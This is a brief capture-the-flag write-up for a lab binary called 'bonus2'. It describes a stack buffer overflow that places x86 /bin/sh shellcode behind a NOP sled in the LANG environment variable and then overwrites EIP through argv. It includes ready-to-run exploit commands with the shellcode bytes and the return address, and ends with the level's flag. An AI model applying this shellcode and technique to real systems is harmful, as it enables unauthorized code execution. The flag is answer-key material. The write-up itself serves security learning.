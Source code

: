# Bonus 2

Here we have a program that takes 2 arguments but there is not enough space in the first argument to overflow in EIP and setup a shellcode. However we use an environnement variable in which we can store anything so we put our shellcode in there. Then we have to put enough characters in  argv[1] to overflow in argv2 making a big string to have enough characters to overflow in EIP. But if we keep the language anything else than nl we do not have enough characters to overflow in EIP so we need to start the LANG env variable with "nl" (fi should work too). Then we overflow in EIP giving it the address of our shellcode in the ENV (or any address part of the NOP slope preceding it to make easier address)

```bash
export LANG=$(python -c 'print "nl" + "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"')
./bonus2 NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN $(python -c 'print "N" * 23 + "\xd8\xfe\xff\xbf"')
```

**Flag:** `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`
